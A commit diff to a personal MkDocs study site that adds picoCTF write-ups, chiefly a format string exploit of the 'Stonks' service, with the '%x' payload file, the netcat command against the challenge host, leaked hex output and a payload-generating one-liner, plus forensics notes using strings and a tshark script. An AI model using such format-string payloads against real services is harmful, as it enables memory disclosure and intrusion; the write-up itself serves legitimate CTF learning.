

Before and after one commit to argodev/study, an MkDocs documentation site: the page built from docs/ctf/picoCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 13356 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updating picoCTF

````diff
--- a/docs/ctf/picoCTF.md
+++ b/docs/ctf/picoCTF.md
@@ -465,7 +465,155 @@
 
 Here you are given a file `vuln.c` and told that there is a bot to trade "stonks" using AI and ML. It looks to be  service listening on `mercury.picoctf.net 16439` that you can interact with via netcat (`nc`). Probably need to spend some time looking at `vuln.c` to see what is going on...
 
+Well, I somewhat quickly assertained what was going on (format string vulnerability), but I then proved to myself that __I had abosolutely no idea how to actually exploit__ or take advantage of it. I spent *way* too much time trying to figure things out.
+
+What I ended up doing was creating a file called `inputs` that looks like the following:
+
+```text
+1
+%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
+```
+
+This represents the two inputs I wanted to provide to the program. I then called the program as you would normally expect:
+
+```bash
+$ nc mercury.picoctf.net 16439 < inputs
+Welcome back to the trading app!
+
+What would you like to do?
+1) Buy some stonks!
+2) View my portfolio
+Using patented AI algorithms to buy stonks
+Stonks chosen
+What is your API token?
+Buying stonks with token:
+9aa0390804b00080489c3f7eecd80ffffffff19a9e160f7efa110f7eecdc709a9f18029aa03709aa03906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ff8a007d
+Portfolio as of Thu Oct 28 20:20:27 UTC 2021
+
+
+2 shares of I
+6 shares of WJ
+22 shares of W
+55 shares of ZCVR
+1903 shares of Z
+Goodbye!
+```
+
+I assumed that the flag would start with `picoCTF{` as most of them had, so I confirmed that I knew that the little-endian hex version of the start of that string was `6f636970`. I identified that portion in the byte string above, took from there to the end and dumped it into cyberchef. I then used a `swap endianness` tool complete with `from hex` and I had the flag.
+
+I made that *__way__* too difficult.
+
+One helpful line of code that I don't want to loose:
+
+```bash
+$ python3 -c "print('%x'*30)"
+```
 
 
 
 ## Uncategorized
+
+
+## picoMini by redpwn
+
+## picoCTF 2021
+
+## picoCTF 2020 Mini-Competition
+
+## picoCTF 2019
+
+### Glory of the Garden
+
+Given an image (`garden.jpg`), can you find the flag.
+
+Looking at the image didn't show much, and there was nothing immediately obvious in the metadata. Knowing that it is a 50 pt problem, it has to be pretty easy, so I ran strings against it and the last line includes: `Here is a flag "picoCTF{redacted_value}"`
+
+### So Meta
+
+Asked to find the flag in the provided picture: `pico_img.png`.
+
+Probably could have used some image-processing tool to inspect the metadata, but I ran it through strings and immediately found what I was looking for (e.e. `$ strings pico_img.png | grep pico`)
+
+### shark on wire 1
+
+Given a capture file (`capture.pcap`), you are asked to recover the flag.
+
+After noodling around a bit, I found the flag, but I wish I had a better way.
+
+I searched for `pico` and found nothing.
+
+I then went to `Statistics --> Conversations`. From there, I started looking around at ones that looked interesting, and started clicking on UDP converstions where there was data being sent back (e.g. `B --> A`). After clicking a few and pressing `Follow Stream...` I found the flag.
+
+While this works for the problem, there *must* be a better way. I read a handful of write-ups, and many people "just searched" like I had and seemed to have stumbled upon it. I still don't like that as a sustainable approach, because it feels too much like luck.
+
+I then found [this writeup](https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/shark_on_wire_1.md) which used a bash script with `tshark` (command-line version of wireshark) to find it. This is a much better approach in my mind.
+
+Therefore, in order to ensure I learned from this, I pulled apart the script so I could understand what is going on.  I include it below with my comments for clarity, but credit for the script goes to [dvd848](https://github.com/Dvd848)
+
+```bash
+#!/bin/bash
+
+# this is the file we are interrogating
+PCAP=shark_on_wire.pcap;
+
+# determine how many UDP streams exist in the file
+# this number increments so we just grab the last one.
+END=$(tshark -r $PCAP -T fields -e udp.stream | sort -n | tail -1);
+
+# loop through the UDP streams...
+for ((i=0;i<=END;i++));
+do
+    # for the given stream:
+    #   show the data as text, ignoring any errors
+    #   remove any line returns via the translate (`tr`) tool
+    #   grep/search for "picoCTF"
+    tshark -r $PCAP -Y "udp.stream eq $i" -T fields -e data.text -o data.show_as_text:TRUE 2>/dev/null | tr -d '\n' | grep "picoCTF";
+
+    # if the result of the prior command was "0" (successful), indicate which stream it was in.
+    if [ $? -eq 0 ]; then
+        echo "(Stream #$i)";
+    fi;
+done
+```
+
+### extensions
+
+By the name, you can guess that the file extension is wrong. If you run `file` against it, you see that it believes it to be a `png`.
+
+Running `strings` shows you nothing, but if you open it in an image viewer you see the flag to submit
+
+### What Lies Within
+
+File is definitely an image. Neither `identify` or `exiftool` showed anything interesting. Running `strings` didn't make anything immediately obvious either.
+
+### m00nwalk
+
+### WhitePages
+
+### c0rrupt
+
+### like1000
+
+### m00nwalk2
+
+### Investigative Reversing 0
+
+### shark on wire 2
+
+### Investigative Reversing 1
+
+### Investigative Reversing 2
+
+### WebNet0
+
+### Investigative Reversing 3
+
+### Investigative Reversing 4
+
+### WebNet1
+
+### investigation_encoded_1
+
+### investigation_encoded_2
+
+### B1g_Mac
````
